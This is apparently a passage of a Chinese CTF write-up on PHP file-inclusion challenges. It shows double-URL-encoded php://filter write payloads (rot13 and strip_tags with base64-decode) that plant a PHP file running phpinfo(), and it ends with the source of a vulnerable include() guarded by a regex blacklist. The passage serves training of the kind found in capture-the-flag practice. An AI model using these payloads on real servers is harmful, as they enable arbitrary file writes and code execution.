 

**利用`string.rot13` 过滤器**

构造：

```
php://filter/write=string.rot13/resource=2.php

?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%65%25%37%32%25%36%66%25%37%34%25%33%31%25%33%33%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%32%25%32%65%25%37%30%25%36%38%25%37%30

# post 传参   <?php phpinfo();?>
content=<?cuc cucvasb();?>
```

成功回显phpinfo();

**还可以使用 `string.strip_tags` 过滤器。**

构造

```
?file=php://filter/write=string.strip_tags|convert.base64-decode/resource=3.php
/?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%65%25%37%33%25%37%34%25%37%32%25%36%39%25%37%30%25%35%66%25%37%34%25%36%31%25%36%37%25%37%33%25%37%63%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%33%25%32%65%25%37%30%25%36%38%25%37%30

# post传入 <?php phpinfo();
PD9waHAgcGhwaW5mbygpOw==
```

虽然

```

Deprecated: file_put_contents(): The string.strip_tags filter is deprecated in /var/www/html/index.php on line 21
```

但访问3.php,成功显示phpinfo页面。

可以参考这里

https://yanmie-art.github.io/2020/09/05/%E6%8E%A2%E7%B4%A2php%E4%BC%AA%E5%8D%8F%E8%AE%AE%E4%BB%A5%E5%8F%8A%E6%AD%BB%E4%BA%A1%E7%BB%95%E8%BF%87/

## web88~data协议去等号

```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}

```
